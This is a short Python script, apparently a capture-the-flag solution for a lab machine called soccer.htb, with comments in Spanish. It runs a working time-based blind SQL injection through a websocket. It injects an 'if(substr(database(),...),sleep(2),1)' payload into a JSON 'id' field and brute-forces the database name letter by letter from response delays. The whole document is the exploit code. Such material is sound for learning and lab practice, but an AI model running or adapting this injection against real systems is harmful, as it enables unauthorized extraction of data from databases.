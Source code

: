 ```python
import asyncio
import websockets
import signal,sys,string,time
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...")
    sys.exit(1)

#Ctrl+C 
signal.signal(signal.SIGINT,def_handler)

#Variables globales
letters = string.ascii_lowercase
burp = {'http':'http://127.0.0.1:8080'}
bbdd = ""
let = ""

async def send_request(request):
    async with websockets.connect('ws://soc-player.soccer.htb:9091/') as websocket:
        await websocket.send(request)
        inicio = time.time()
        response = await websocket.recv()
        fin = time.time()
        response = False
        if fin - inicio >= 2:
            global bbdd
            global let
            bbdd += let
            p2.status(bbdd)
            response = True

        return response

def peticion(request):
    response = asyncio.get_event_loop().run_until_complete(send_request(request))
    return response

if __name__ == "__main__":

    p1 = log.progress("SQLI")
    p1.status("Iniciando ataque de fuerza bruta")

    p2 = log.progress("BBDD: ")
    time.sleep(2)
    for position in range(1,65):
        for letter in letters:
            let = letter
            payload = f"or if(substr((database()),{position},1)=\'{letter}\',sleep(2),1)"
            request = "{\"id\":\"1 "+payload+"\"}"
            p1.status(request)
            response = peticion(request)
            if response:
                break
```
